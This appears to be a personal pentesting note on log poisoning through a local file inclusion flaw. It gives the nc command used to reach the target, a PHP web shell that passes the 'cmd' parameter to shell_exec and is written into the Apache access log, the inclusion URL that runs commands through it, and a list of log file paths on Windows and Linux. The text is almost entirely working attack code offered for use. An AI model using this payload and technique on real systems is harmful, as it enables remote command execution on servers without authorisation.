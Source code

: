 #### Connect with nc and poison the log:
```bash
nc -nv $TARGET 80
```
```php
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```
What the log file looks like:
![[Pasted image 20220506100915.png]]
```bash
http://$TARGET/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
```
Common log locations:
Windows xampp
`c:\xampp\apache\logs\access.log`
Linux locations
`/var/log/apache2/access.log`
`/var/log/apache/access.log`
`/var/log/apache/error.log`
`/var/log/apache2/access.log`
`/var/log/apache2/error.log`
`/var/log/nginx/access.log`
`/var/log/nginx/error.log`
`/var/log/vsftpd.log`
`/var/log/sshd.log`
`/var/log/mail`
`/var/log/httpd/error_log`
`/usr/local/apache/log/error_log`
`/usr/local/apache2/log/error_log`